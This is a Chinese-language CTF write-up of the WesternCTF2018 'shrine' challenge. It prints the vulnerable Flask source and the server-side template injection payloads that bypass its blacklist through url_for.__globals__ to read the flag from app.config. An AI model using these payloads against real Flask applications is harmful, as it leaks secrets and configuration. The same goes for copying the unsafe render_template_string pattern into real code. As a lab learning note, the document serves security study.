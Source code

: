 # [WesternCTF2018]shrine（学习）
![](<./img/Pasted image 20221129143404.png>)

---
首页长这样
```python
import flask
import os

app = flask.Flask(__name__)
app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
	return open(__file__).read()

@app.route('/shrine/<path:shrine>')
def shrine(shrine):
	def safe_jinja(s):
		s = s.replace('(', '').replace(')', '')
		blacklist = ['config', 'self']
		return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s

	return flask.render_template_string(safe_jinja(shrine))

if __name__ == '__main__':
	app.run(debug=True)
```
显然是个`flask`的`SSTI`

```php
/shrine/{{1+1}}
```
> 2

`flag`保存在app.config里，所以只要访问`/shrine/{{config}}`就可以了啊哈哈（
```python
blacklist = ['config', 'self']
return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s
```
并不行，这俩被替换成`None`了

网上给出的解决方案是利用`flask`的`url_for`函数以及`python`的`__globals__`魔法，获取`url_for`所在环境中的全局变量
```python
/shrine/{{url_for.__globals__}}
```
![](<./img/Pasted image 20221129160253.png>)

```python
/shrine/{{url_for.__globals__['current_app'].config}}
```

![](<./img/Pasted image 20221129160733.png>)

#Web #python #flask #SSTI #urlfor #globals #bypass 